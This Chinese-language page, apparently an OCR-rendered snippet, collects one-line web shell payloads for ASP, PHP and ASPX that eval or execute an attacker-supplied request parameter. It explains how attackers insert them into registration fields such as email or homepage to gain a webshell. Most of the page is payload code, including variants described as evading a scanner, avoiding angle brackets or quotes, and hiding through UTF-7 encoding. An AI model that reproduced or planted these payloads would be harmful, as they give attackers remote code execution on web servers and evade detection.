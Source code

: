黑客在注册信息的电子邮箱或者个人主页等中插入类似如下代码：

&lt;%execute request\("value"\)%&gt;

其中value是值，所以你可以更改自己的值，前面的request就是获取这个值

&lt;%eval request\("value"\)%&gt;\(现在比较多见的，而且字符少，对表单字数有限制的地方特别的实用\)

当知道了数据库的URL，就可以利用本地一张网页进行连接得到Webshell。（不知道数据库也可以，只要知道&lt;%eval request\("value"\)%&gt;这个文件被插入到哪一个ASP文件里面就可以了。）

这就被称为一句话木马，它是基于B/S结构的。



常用一句话木马

asp一句话木马：

　　 &lt;%execute\(request\("value"\)\)%&gt;

　　php一句话木马：

　　 &lt;?php @eval\($\_POST\[value\]\);?&gt;

　　aspx一句话木马：

　　&lt;%@ Page Language="Jscript"%&gt;

　　&lt;%eval\(Request.Item\["value"\]\)%&gt;

其他一句话木马：

&lt;%eval request\("value"\)%&gt;

　　&lt;%execute request\("value"\)%&gt;

　　&lt;%execute\(request\("value"\)\)%&gt;

　　&lt;%If Request\("value"\)&lt;&gt;"" Then Execute\(Request\("value"\)\)%&gt;

　　&lt;%if request \("value"\)&lt;&gt;""then session\("value"\)=request\("value"\):end if:if session\("value"\)&lt;&gt;"" then execute session\("value"\)%&gt;

　　&lt;SCRIPT language=VBScript runat="server"&gt;execute request\("value"\)&lt;/SCRIPT&gt;

　　&lt;%@ Page Language="Jscript"%&gt;

　　&lt;%eval\(Request.Item\["value"\],"unsafe"\);%&gt; 

　　可以躲过雷客图的一句话木马：

　　&lt;%

　　set ms = server.CreateObject\("MSScriptControl.ScriptControl.1"\)

　　ms.Language="VBScript"

　　ms.AddObject "Response", Response

　　ms.AddObject "request", request

　　ms.ExecuteStatement\("ev"&"al\(request\(""value""\)\)"\)

　　%&gt;

　　不用'&lt;,&gt;'的asp一句话木马：

　　&lt;script language=VBScript runat=server&gt;execute request\("value"\)&lt;/script&gt; 

　　不用双引号的一句话木马：

　　&lt;%eval request\(chr\(35\)\)%&gt;

UTF-7编码加密:

&lt;%@ codepage=65000%&gt;&lt;% response.Charset=”936″%&gt;&lt;%e+j-x+j-e+j-c+j-u+j-t+j-e+j-\(+j-r+j-e+j-q+j-u+j-e+j-s+j-t+j-\(+j-+ACI-\#+ACI\)+j-\)+j-%&gt;



